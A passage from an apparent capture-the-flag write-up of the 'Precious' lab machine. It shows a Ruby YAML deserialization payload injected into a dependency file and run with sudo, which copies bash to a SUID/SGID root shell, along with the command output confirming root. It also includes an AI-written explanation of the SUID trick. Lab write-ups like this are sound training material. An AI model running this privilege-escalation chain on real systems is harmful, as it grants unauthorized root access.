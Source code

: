 We found the payload works!!!

```
henry@precious:/dev/shm$ sudo ruby /opt/update_dependencies.rb 
sh: 1: reading: not found
uid=0(root) gid=0(root) groups=0(root)
Traceback (most recent call last):
        33: from /opt/update_dependencies.rb:17:in `<main>'
        32: from /opt/update_dependencies.rb:10:in `list_from_file'
...[snip]...
         1: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
/usr/lib/ruby/2.7.0/net/protocol.rb:458:in `system': no implicit conversion of nil into Str
```

## Shell

We edit the following line:

```
             git_set: cp /bin/bash /tmp/jay; chmod 6777 /tmp/jay
```

We will copy `bash` and make the copy `SetUID` and `SetGID` for root

**Explanation by chatgpt**

* **Copy `bash` to `/tmp/bash`**: The attacker is attempting to copy the `bash` shell (or any other program) to a location where they have write access, in this case, `/tmp`. This allows them to execute a shell from this location.
* **Set the `SetUID` and `SetGID` bits**:
  * **`SetUID (Set User ID)`**: This special permission allows an executable to run with the privileges of the file's owner, which is often root. When `SetUID` is set on a binary like `bash`, even if a user with lower privileges runs it, it will execute with root privileges.
  * **`SetGID (Set Group ID)`**: Similar to `SetUID`, the `SetGID` permission makes the executable run with the group privileges of the file owner, typically root as well.

By copying `bash` to a writable directory and setting the `SetUID` and `SetGID` permissions, the attacker can make this shell run with root privileges when executed, regardless of the user's privileges.

Now we run the script:

```
henry@precious:/dev/shm$ sudo ruby /opt/update_dependencies.rb 
sh: 1: reading: not found
Traceback (most recent call last):
        33: from /opt/update_dependencies.rb:17:in `<main>'
...[snip]...
henry@precious:/dev/shm$ ls -l /tmp/jay 
-rwsrwxrwx 1 root root 1234376 May 17 22:05 /tmp/jay
```

Now, we use the `-p` gives the `UID` and `GID` as root:

```
henry@precious:/dev/shm$ /tmp/jay -p
0xdf-5.1# id
uid=1000(henry) gid=1000(henry) euid=0(root) egid=0(root) groups=0(root),1000(henry)
```
